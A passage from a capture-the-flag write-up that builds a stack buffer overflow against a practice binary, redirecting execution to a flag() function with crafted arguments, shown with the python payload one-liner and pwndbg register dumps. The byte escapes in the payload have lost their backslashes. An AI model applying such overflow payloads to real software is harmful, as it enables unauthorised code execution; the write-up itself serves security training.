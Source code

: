 Now, looking at the EBP register, observe the value at $ebp+0x4:

{% highlight bash %}
pwndbg> x/4x $ebp  
0xffffd01c:     0x41414141      0x42424242      0xffffd000      0xffffd0fc
{% endhighlight %}

Thus, $ebp+0x8 and $ebp+0xc can now successfully be controlled by appending 0xdeadbeef and 0xc0ded00d in little endian byte format (xefxbexadxde and x0dxd0xdexc0 respectively).

Exploit
-------

Therefore, the final exploit will take the following form:

JUNK_BYTE*188 + ADDRESS_OF_FLAG + JUNK2_BYTE*4 + DEADBEEF + C0DED00D

Where:

JUNK_BYTE = A

JUNK2_BYTE = B

ADDRESS_OF_FLAG = xe2x91x04x08

DEADBEEF = xefxbexadxde

C0DED00D = x0dxd0xdexc0

Piping the contents of eip_flag into the binary and checking the EBP register, it can be seen that ebp+0x8 and ebp+0xc were successfully controlled.

{% highlight bash %}
┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]  
└──╼ $python -c "print 'A'*188 + 'xe2x91x04x08'+'BBBB'+'xefxbexadxde'+'x0dxd0xdexc0'" > eip_flag  
  
pwndbg> r < eip_flag                                                                                                                                                  [4/579]  
Starting program: /home/0xd4y/business/hackthebox/challenges/pwn/easy/you_know/vuln < eip_flag                                                                                
You know who are 0xDiablos:                                                                                                                                                    
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
AAAAAAAAAAAAAABBBBﾭ                                                                                                                                                            
  
Breakpoint 1, 0x08049246 in flag ()        LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA                                      
────────────────────────────────────[ REGISTERS ]─────────────────────────────────────EAX  0x0                                  EBX  0x804c000 (_GLOBAL_OFFSET_TABLE_) --▸ 0x804bf10 (_DYNAMIC) ◂-- add    dword ptr [eax], eax  
ECX  0x0                                  EDX  0xfbad2498                          EDI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es:[edi], dx /* 0x1e4d6c */ESI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es:[edi], dx /* 0x1e4d6c */EBP  0xffffd01c ◂-- 0x41414141 ('AAAA')    ESP  0xffffcfc4 ◂-- 0x41414141 ('AAAA')    EIP  0x8049246 (flag+100) ◂-- cmp    dword ptr [ebp + 8], 0xdeadbeef                    
───────────────────────────────────[ DISASM ]───────────────────────────────────        
► 0x8049246 <flag+100>    cmp    dword ptr [ebp + 8], 0xdeadbeef                      
  0x804924d <flag+107>    jne    flag+135 <flag+135>                                  
                                           
  0x804924f <flag+109>    cmp    dword ptr [ebp + 0xc], 0xc0ded00d                    
  0x8049256 <flag+116>    jne    flag+138 <flag+138>                                  
                                           
  0x8049258 <flag+118>    sub    esp, 0xc                                              
  0x804925b <flag+121>    lea    eax, [ebp - 0x4c]                                    
  0x804925e <flag+124>    push   eax       0x804925f <flag+125>    call   printf@plt <printf@plt>                              
                                           
  0x8049264 <flag+130>    add    esp, 0x10                                            
  0x8049267 <flag+133>    jmp    flag+139 <flag+139>                                  
                                           
  0x8049269 <flag+135>    nop             ───────────────────────────────────[ STACK ]────────────────────────────────────        
00:0000│ esp 0xffffcfc4 ◂-- 0x41414141 ('AAAA')                                          
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────        
► f 0 0x8049246 flag+100                    